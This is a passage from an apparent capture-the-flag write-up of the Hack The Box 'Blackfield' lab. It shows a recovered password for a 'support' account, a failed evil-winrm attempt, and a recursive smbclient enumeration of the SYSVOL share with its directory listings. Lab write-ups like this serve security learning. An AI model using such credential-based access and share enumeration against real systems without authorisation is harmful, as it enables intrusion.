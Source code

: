 We got the password for `support : #00^BlackKnight`

I tried login with `evil-winrm` but it failed so I decided to go back to SMB 

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# smbclient //10.10.10.192/SYSVOL -U 'support'
Enter WORKGROUP\support's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 16:43:05 2020
  ..                                  D        0  Sun Feb 23 16:43:05 2020
  BLACKFIELD.local                    D        0  Sun Feb 23 16:43:05 2020
re
		7846143 blocks of size 4096. 4098569 blocks available
smb: \> recurse on
smb: \> ls
  .                                   D        0  Sun Feb 23 16:43:05 2020
  ..                                  D        0  Sun Feb 23 16:43:05 2020
  BLACKFIELD.local                    D        0  Sun Feb 23 16:43:05 2020

\BLACKFIELD.local
  .                                   D        0  Sun Feb 23 16:49:28 2020
  ..                                  D        0  Sun Feb 23 16:49:28 2020
  DfsrPrivate                       DHS        0  Sun Feb 23 16:49:28 2020
  Policies                            D        0  Sun Feb 23 16:43:14 2020
  scripts                             D        0  Sun Feb 23 16:43:05 2020

\BLACKFIELD.local\DfsrPrivate
NT_STATUS_ACCESS_DENIED listing \BLACKFIELD.local\DfsrPrivate\*

\BLACKFIELD.local\Policies
  .                                   D        0  Sun Feb 23 16:43:14 2020
  ..                                  D        0  Sun Feb 23 16:43:14 2020
  {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sun Feb 23 16:43:14 2020
  {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sun Feb 23 16:43:14 2020

\BLACKFIELD.local\scripts
  .                                   D        0  Sun Feb 23 16:43:05 2020
  ..                                  D        0  Sun Feb 23 16:43:05 2020

\BLACKFIELD.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
  .                                   D        0  Sun Feb 23 16:43:14 2020
  ..                                  D        0  Sun Feb 23 16:43:14 2020
  GPT.INI                             A       22  Sun Feb 23 16:50:36 2020
  MACHINE                             D        0  Sun Feb 23 16:50:36 2020
  USER                                D        0  Sun Feb 23 16:43:14 2020

\BLACKFIELD.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
  .                                   D        0  Sun Feb 23 16:43:14 2020
  ..                                  D        0  Sun Feb 23 16:43:14 2020
  GPT.INI                             A       22  Sun Feb 23 16:43:14 2020
  MACHINE                             D        0  Sun Feb 23 16:43:14 2020
  USER                                D        0  Sun Feb 23 16:43:14 2020

\BLACKFIELD.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE
  .                                   D        0  Sun Feb 23 16:50:36 2020
  ..                                  D        0  Sun Feb 23 16:50:36 2020
  Microsoft                           D        0  Sun Feb 23 16:43:14 2020
  Registry.pol                        A     2796  Sun Feb 23 16:50:36 2020

\BLACKFIELD.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\USER
  .                                   D        0  Sun Feb 23 16:43:14 2020
  ..                                  D        0  Sun Feb 23 16:43:14 2020

\BLACKFIELD.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE
```